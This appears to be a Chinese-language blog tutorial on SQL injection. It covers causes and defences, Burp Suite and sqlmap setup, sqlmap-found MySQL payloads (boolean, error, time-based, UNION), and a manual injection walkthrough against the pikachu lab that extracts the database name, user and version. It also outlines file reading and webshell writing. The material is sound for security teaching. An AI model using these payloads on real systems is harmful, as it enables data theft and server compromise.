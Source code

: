 ```yaml
---
layout: post
title: SQL注入
categories: 网络安全
description: SQL注入
keywords: SQL注入
---
```


SQL注入的原理和基础知识

### 1、sql注入漏洞介绍

web程序代码中对于用户提交的参数未作过滤就直接放到SQL语句中执行，导致参数中的特殊字符打破了SQL语句原有逻辑，黑客可以利用该漏洞执行任意SQL语句，如查询数据、下载数据、写入webshell、执行系统命令以及绕过登录限制等。

测试方法：在发现有可控参数的地方使用`sqlmap`进行SQL注入的检测或利用，也可以使用其他的SQL注入工具，如`burpsuite的sqlmap插件`；简单点的可以手工测试，利用单引号、and 1=1 and 1=2以及字符型注入进行判断。

修复方案：代码层防御sql注入，采用sql语句预编译和绑定变量是防御sql注入的最佳方法。

1. 所有的查询语句都使用数据库提供的参数化查询接口，参数化的语句使用参数而不是将用户输入变量嵌入到SQL语句中，当前几乎所有的数据库系统都提供了参数化SQL语句执行接口。
2. 对进入数据库的特殊字符`'<>&*;`等进行转义或者编码转换。
3. 确认每种数据的类型，比如数字型的数据就必须是数字，存储字段必须对应int型。
4. 数据长度应该严格规定，能在一定程度上防止比较长的SQL注入语句
5. 网站的每个数据层的编码统一，建议全部使用URF-8编码，上下层编码不一致有可能导致一些过滤模型被绕过。
6. 严格限制网站用户的数据库操作权限，给用户提供仅仅能够满足其工作的权限，从而减少注入攻击。
7. 避免网站显示 SQL 错误信息，比如类型错误、字段不匹配等，防止攻
   击者利用这些错误信息进行一些判断。

### 2、burp suite配置sqlmap插件

1. 打开burpsuite =》Extender =》 BApp store =》 CO2 安装
2. 点击intruder=》positions=》右键=》send to Repeater
3. 打开到Repeater =》 右键 send to SQLMapper
4. 点击config =》选择sqlmap的文件目录的sqlmap.py =》 选择python目录的python.exe

这样就好了，然后进行测试

1. 开启监听，火狐浏览器设置代理，打开靶场
2. 点击要测试注入的地方，进行查询请求，抓到查询的包
3. 右键发送到sqlmapper
4. 选择数据库类型为`MySQL`,可以不选
5. 点击`run`
6. 一些地方需要确认，输入`y`

最后输出这些可注入点

```bash
sqlmap identified the following injection point(s) with a total of 3766 HTTP(s) requests:
---
Parameter: name (GET)
    Type: boolean-based blind # 盲注入
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: name=1' RLIKE (SELECT (CASE WHEN (8339=8339) THEN 1 ELSE 0x28 END))-- KHUY&submit=%E6%9F%A5%E8%AF%A2

    Type: error-based  # 报错注入
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: name=1' AND GTID_SUBSET(CONCAT(0x717a627671,(SELECT (ELT(4169=4169,1))),0x71787a6b71),4169)-- Azck&submit=%E6%9F%A5%E8%AF%A2

    Type: time-based blind # 时间注入
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=1' AND (SELECT 1161 FROM (SELECT(SLEEP(5)))CrHF)-- kety&submit=%E6%9F%A5%E8%AF%A2

    Type: UNION query  #联合注入
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: name=1' UNION ALL SELECT NULL,CONCAT(0x717a627671,0x52485251694e41775a654759665575584642687a6151684e704b556e696f784d5071437446675141,0x71787a6b71)#&submit=%E6%9F%A5%E8%AF%A2
---
```

### 3、MySQL 中的 infomation_schema

在 mysql5 版本以后，mysql 默认在数据库中存放一个叫infomation_schema的库，,它提供了数据库元数据的访问方式，元数据是关于数据的数据，如数据库名或表名，列的数据类型，或访问权限等。

这个库里面有很多表 重点是这三个表

1. SCHEMATA 表：当前 mysql 实例中所有数据库的信息。`SHOW DATABASES;` 命令从这个表获取数据。
2. tables表：存储数据库中的表信息（包括视图），包括表属于哪个数据库，表的类型、存储引擎、创建时间等信息。`SHOW TABLES FROM XX;` 命令从这个表获取结果。
3. columns 表：存储表中的列信息，包括表有多少列、每个列的类型等。`SHOW COLUMNS FROM schemaname.tablename` 命令从这个表获取结果。

### 4、SQL注入原理

SQL注入漏洞的产生需要满足以下两个条件：

1. 参数用户可控：从前端传给后端的参数内容是用户可以控制的
2. 参数带入数据库查询：传入的参数拼接到 SQL 语句，且带入数据库查询

### 5、判断是否存在注入

在提交查询的地方，加个符号，假设有这个样子的sql语句查询`select * from users where id = ？`这个`?`是前端传递过来拼接的，我们在前端提交的地方提交一个`1'`，会拼接到sql语句中，这个时候执行，就会报错，会返回sql查询语法错误，这样就知道我们的参数是没有进行过滤就直接拼接到sql语句中，就是看你存在注入的，这样就称为有回显。

其他构造语句，比如`and 1=1`或者`and 1 = 2`

输入一些特定查询语句页面有数据 信息返回称之为回显，，无回显是指 根据输入的语句 页面没有任何变化,或者没有数据库中的内容显示到网页中。

无回显的时候可以通过其他方法测试是否存在注入。

### 6、 三种sql注释符

一些时候可以通过注释来改变sql语句，来完成SQL注入

1. `#`：单行注释
2. `-- 空格`：单行注释
3. `/* */`：多行注入 `/**/`常用来做空格

### 7、注入流程

1. 判断是否存在注入并且判断注入类型
2. 判断字段数 `order by`
3. 确定回显点 `union select 1,2`
4. 查询数据库信息 `@@version`、`@@datadir`
5. 查询用户名，数据库名`user()`、`database()`
6. 文件读取`union select 1`、`load_file(url)`
7. 写入webshell

使用sql注入遇到转义字符的单引号或者双引号，可以使用`HEX`编码绕过。

### 8、注入分类

按 SQLMap 中的分类来看，SQL 注入类型有以下 5 种：

1. UNION query SQL injection（可联合查询注入）
2. Stacked queries SQL injection（可多语句查询注入）堆叠查询
3. Boolean-based blind SQL injection （ 布尔型注入）
4. Error-based SQL injection（报错型注入）
5. Time-based blind SQL injection（基于时间延迟注入）

按请求类型分类：

1. GET注入：GET 请求的参数是放在 URL 里的，GET 请求的 URL 传参有长度限制 中文需要URL编码
2. POST注入：POST 请求参数是放在请求 body 里的，长度没有限制
3. COOKIE  注入：cookie 参数放在请求头信息，提交的时候 服务器会从请求头获取

按注入数据类型区分：

1. int：整型 `select * from users where id=1`
2. string：字符型 `select * from users where username='admin'`
3. like：搜索型 `select * from news where title like '%标题%'`

### 9、SQL  注入常规利用思路

1. 寻找注入点，可以通过web扫描器实现
2. 通过注入点，尝试获取关于连接数据库用户名、数据库名称、用户权限、操作系统信息、数据库版本等信息
3. 猜解关键数据库表及其重要字段与内容(如存放管理员账号的表名、字段名等信息)、还可以获取数据库的root账号-密码一思路
4. 可以通过获得的用户信息，找后台登录
5. 利用后台或了解的进一步信息

### 10、手工注入常规思路

1. 判断是否存在注入，注入的类型
2. 猜解SQL查询语句中的字段数 order by N
3. 确定显示的字段顺序
4. 获取当前数据库
5. 获取数据库中的表
6. 获取表中的字段名
7. 查询到账户的数据

具体构建流程：

```sql
# 假设有一条请求链接为 /sqli/sqli_str.php?name=vince&submit=查询
# 第一步判断是否有注入点，构建sql语句
/sqli/sqli_str.php?name=vince' and 1=1 %23 &submit=查询
# 返回之后和原来的一样，再次尝试
/sqli/sqli_str.php?name=vince' and 1=2 %23 &submit=查询
# 返回的不一样，判断可以注入，然后判断字段数是多少
/sqli/sqli_str.php?name=vince' order by 2 %23 &submit=查询
# 发现有两个字段，获取敏感信息   ps：0x3a是‘:’
/sqli/sqli_str.php?name=vince' union select 1,group_concat(database(),0x3a, user(), 0x3a,version())  %23 &submit=查询
# pikachu:root@localhost:5.7.33-0ubuntu0.16.04.1
```
